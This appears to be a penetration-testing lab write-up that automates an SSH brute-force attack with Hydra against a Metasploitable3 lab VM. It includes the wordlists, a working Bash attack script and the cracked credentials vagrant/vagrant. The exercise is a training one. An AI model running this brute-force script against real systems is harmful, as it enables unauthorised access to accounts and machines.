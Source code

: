 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
The objective of this task is to automate the SSH brute-force process using a custom Bash script with Hydra (Hydra also known as THC-Hydra is a fast and flexible password-cracking tool used in ethical hacking and penetration testing). This script attempts to find valid login credentials by testing multiple username and password combinations, and logs successful attempts into an output file.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target PORT

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

### add the script using:
```text
nano script.sh
```

![the Custom Script](screanshots/customScript.png)

---

## Make the script executable
```text
chmod +x script.sh
```
![script executable](screanshots/scriptExecutable.png) 

---

## Result

### Execute the script
```text
./script.sh
```
![Execute script](screanshots/executeScript.png) 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant





















